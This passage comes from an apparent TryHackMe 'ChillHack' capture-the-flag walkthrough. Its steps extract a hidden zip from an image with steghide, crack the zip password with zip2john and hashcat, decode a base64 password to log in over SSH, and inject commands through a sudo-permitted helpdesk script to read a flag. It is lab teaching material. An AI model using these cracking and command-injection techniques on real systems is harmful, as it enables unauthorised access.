 Now its simple to just right click and download the hacker image to my machine.  Now the image in on my machine and check for any hidden files.

```highlight
└──╼ $steghide extract -sf hacker-with-laptop_23-2147985341.jpg
Enter passphrase:                                              
wrote extracted data to "backup.zip".                          
```
Using steghide I was able to extract a zip file. However the zip file was password protected.

```highlight
└──╼ $/usr/sbin/zip2john backup.zip > ziphash
ver 2.0 efh 5455 efh 7875 backup.zip/source_code.php PKZIP Encr: 2b chk, TS_chk, cmplen=554, decmplen=1211, crc=69DC82F3
```

Using zip2john I was able to generate the password hash. I extracted the hash from the ziphash output and put in to a new file called newzip. and used the hashcat to crack: hashcat -m 17200 newzip /usr/share/wordlists/rockyou.txt --force

The password cracked successfully, I used the password to unzip the file and got source_code.php. Within the source code was a base64 encoded password.

```highlight
┌─[daz@parrot]─[~/Documents/TryHackMe/ChillHack]
└──╼ $echo IWQwbnRLbjB3bREDACTED | base64 -d
<hidden>
```

I decoded the hash and tried to login using SSH. I was successful with the user anurodh.

Once on the machine I did 'sudo -l' to check if there was a quick win to priv esc. I also checked the users home directory for the user flag, however it was not there.

```highlight
anurodh@ubuntu:/dev/shm$ sudo -l
Matching Defaults entries for anurodh on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User anurodh may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

No priv esc to root however I could run a script owned by apaar. 

```highlight
anurodh@ubuntu:/$ sudo -u apaar /home/apaar/.helpline.sh

Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: aurick   
Hello user! I am aurick,  Please enter your message: id    
uid=1001(apaar) gid=1001(apaar) groups=1001(apaar)
Thank you for your precious time!
anurodh@ubuntu:/$ sudo -u apaar /home/apaar/.helpline.sh

Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: aurick
Hello user! I am aurick,  Please enter your message: cat /home/apaar/local.txt
{USER-FLAG: e8vpd3323cfvlp0qpxxx9qREDACTED}
Thank you for your precious time!
anurodh@ubuntu:/$ 
```
